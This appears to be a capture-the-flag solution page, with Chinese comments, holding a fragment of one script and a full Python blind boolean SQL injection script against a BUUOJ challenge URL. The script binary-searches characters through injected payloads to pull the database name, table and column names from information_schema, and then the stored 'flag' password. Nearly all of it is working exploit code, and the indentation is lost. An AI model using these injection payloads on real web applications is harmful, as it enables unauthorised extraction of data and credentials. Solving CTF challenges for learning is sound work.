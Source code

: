 ```plain
head = mid + 1
else:
tail = mid
if head != 32:
result += chr(head)
else:
break
print(result)

```



```plain
import requests
import time
# url是随时更新的，具体的以做题时候的为准
url = 'http://8d08c7b6-e6f3-4df0-b71c-a2a397891bab.node3.buuoj.cn/search.php?id='
i = 0
flag = ''
while True:
i += 1
# 从可打印字符开始
begin = 32
end = 126
tmp = (begin + end) // 2
while begin < end:
print(begin, tmp, end)
time.sleep(0.1)
# 爆数据库
# payload = "''or(ascii(substr(database(),%d,1))>%d)" % (i, tmp)
# 爆表
# payload = "''or(ascii(substr((select(GROUP_CONCAT(TABLE_NAME))from(information_schema.tables)where(TABLE_SCHEMA=database())),%d,1))>%d)" % (i, tmp)
# 爆字段
# payload = "''or(ascii(substr((select(GROUP_CONCAT(COLUMN_NAME))from(information_schema.COLUMNS)where(TABLE_NAME='F1naI1y')),%d,1))>%d)" % (i, tmp)
# 爆flag 要跑很久
# payload = "''or(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)" % (i, tmp)
# 爆flag 很快
payload = "''or(ascii(substr((select(password)from(F1naI1y)where(username='flag')),%d,1))>%d)" % (i, tmp)
# 错误示例
# payload = "''or(ascii(substr((select(GROUP_CONCAT(fl4gawsl))from(Flaaaaag)),%d,1))>%d)" % (i, tmp)
r = requests.get(url+payload)
if 'Click' in r.text:
begin = tmp + 1
tmp = (begin + end) // 2
else:
end = tmp
tmp = (begin + end) // 2
flag += chr(tmp)
print(flag)
if begin == 32:
break

```
